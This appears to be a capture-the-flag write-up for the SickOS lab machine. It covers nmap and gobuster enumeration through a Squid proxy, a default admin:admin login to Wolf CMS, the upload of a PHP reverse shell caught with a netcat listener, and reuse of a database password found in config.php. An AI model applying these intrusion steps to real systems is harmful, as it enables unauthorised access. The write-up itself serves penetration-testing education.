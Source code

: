 # Sick OS write Up 

I got the ip address for the target machine using:
```bash

sudo arp-scan -l

```

Target ip -> 192.168.100.9

### Network Scanning 

```bash

# Nmap 7.95 scan initiated Wed Aug 20 03:03:28 2025 as: /usr/lib/nmap/nmap --privileged -sV -o nmap_full_scan 192.168.100.9
Nmap scan report for 192.168.100.9
Host is up (0.0030s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 5.9p1 Debian 5ubuntu1.1 (Ubuntu Linux; protocol 2.0)
3128/tcp open   http-proxy Squid http proxy 3.1.19
8080/tcp closed http-proxy
MAC Address: 08:00:27:1C:91:68 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Aug 20 03:03:45 2025 -- 1 IP address (1 host up) scanned in 16.43 seconds

```

Open Ports are 22(ssh) and 3128(htttp-proxy) 
Here 22 has no vulnearability 

3128 has Squid http proxy, to access the proxy I used foxy proxy, and to navigated to 127.0.0.1
![homepage of target server](screenshots/homepage.png)

I navigated to robots.txt and got the path to /wolfcms which redirected to the wolf cms homepage
![wolf cms homepage](screenshots/wolf_1.png)

Let's use go buster to get the hidden dirs and endpoints of the cms


```bash

gobuster dir -u http://127.0.0.1/wolfcms/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.bak,.html,.js,.sh,.txt --proxy http://192.168.100.9:3128

```

> --proxy is used to resolve the proxy connection 

![gobuster dir](screenshots/gobuster.png)

Lets Navigate to /docs
After some enumeration in files I got updataing.txt and it has following version 
![version of wolfcms](screenshots/version.png)

So wolfcms version has vulnearablity listed on exploit-db
![exploit db](screenshots/exploit.png)

So lets navigate to URL, I got a login page:
![cms login page](screenshots/login.png)

Here I tried default username and password admin:admin and got the admin access of the cms
![admin page](screenshots/admin_page.png)

Here, I got the admin dashboard which has a functionality to upload a file, I will use to upload a reverse shell php script and use netcat to listen to connection from the target machine

```php
$ip = '192.168.100.5';
$port = 1234;
```

The uploaded file can be executed using following path: `http://127.0.0.1/wolfcms/public/`

```bash
nc -nlvp 1234  
```

### Here we got the reverse shell and we are logged in as www-data
![reverse shell executed](screenshots/shell.png)

After Enumartion in /home I got the user `sickos`, now I need to get its password

In the README.md file I got the following hint:
![database hint](screenshots/hint.png)

So as per the hint, we have to get the dbconnect file which will has password

I got the config.php and we have a database connection along with password lets try that password:
![db connect password](screenshots/hint2.png)

### We got the user sicoks access on the target machine
![sicos login](screenshots/access.png)

